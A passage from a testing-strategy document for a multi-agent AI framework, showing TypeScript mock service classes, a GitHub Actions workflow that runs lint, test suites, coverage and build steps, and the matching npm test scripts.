  async search(query: string, options?: any): Promise<SearchResult[]> {
    // Return mock search results
    return [
      {
        title: `Mock result for: ${query}`,
        url: 'https://example.com',
        snippet: 'This is a mock search result',
        provider: 'mock'
      }
    ];
  }
}

export class MockContextPersistence {
  async saveDecision(decision: any): Promise<void> {
    // Mock saving decisions
  }

  async getDecision(id: string): Promise<any> {
    return {
      id,
      type: 'mock_decision',
      content: 'Mock decision content'
    };
  }
}

export class MockTaskOrchestrator {
  async createTask(task: any): Promise<any> {
    return {
      id: `task-${Date.now()}`,
      ...task,
      status: 'created'
    };
  }

  async updateTaskStatus(id: string, status: string): Promise<void> {
    // Mock status update
  }
}
```

---

## Continuous Integration

### GitHub Actions Workflow

```yaml
# .github/workflows/test.yml
name: Multi-Agent Framework Tests

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]

jobs:
  test:
    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Setup Node.js
      uses: actions/setup-node@v3
      with:
        node-version: '18'
        cache: 'npm'
        cache-dependency-path: 'mcp-servers/agent-swarm/package-lock.json'
    
    - name: Install dependencies
      run: |
        cd mcp-servers/agent-swarm
        npm ci
    
    - name: Run linting
      run: |
        cd mcp-servers/agent-swarm
        npm run lint
    
    - name: Run unit tests
      run: |
        cd mcp-servers/agent-swarm
        npm run test:unit
    
    - name: Run integration tests
      run: |
        cd mcp-servers/agent-swarm
        npm run test:integration
      env:
        NODE_ENV: test
    
    - name: Run E2E tests
      run: |
        cd mcp-servers/agent-swarm
        npm run test:e2e
      env:
        NODE_ENV: test
    
    - name: Run performance tests
      run: |
        cd mcp-servers/agent-swarm
        npm run test:performance
      env:
        NODE_ENV: test
    
    - name: Run security tests
      run: |
        cd mcp-servers/agent-swarm
        npm run test:security
      env:
        NODE_ENV: test
    
    - name: Generate coverage report
      run: |
        cd mcp-servers/agent-swarm
        npm run test:coverage
    
    - name: Upload coverage to Codecov
      uses: codecov/codecov-action@v3
      with:
        file: ./mcp-servers/agent-swarm/coverage/lcov.info
        flags: agent-swarm
    
    - name: Build application
      run: |
        cd mcp-servers/agent-swarm
        npm run build
    
    - name: Upload build artifacts
      uses: actions/upload-artifact@v3
      with:
        name: agent-swarm-build
        path: mcp-servers/agent-swarm/dist/
```

### Test Scripts

```json
{
  "scripts": {
    "test": "jest",
    "test:unit": "jest --testPathPattern=tests/unit",
    "test:integration": "jest --testPathPattern=tests/integration",
    "test:e2e": "jest --testPathPattern=tests/e2e",
    "test:performance": "jest --testPathPattern=tests/performance",
    "test:security": "jest --testPathPattern=tests/security",
    "test:coverage": "jest --coverage",
    "test:watch": "jest --watch",
    "test:debug": "node --inspect-brk node_modules/.bin/jest --runInBand"
  }
}
```

This comprehensive testing strategy ensures that the Multi-Agent AI Framework meets all functional, performance, security, and integration requirements while providing reliable and maintainable code quality.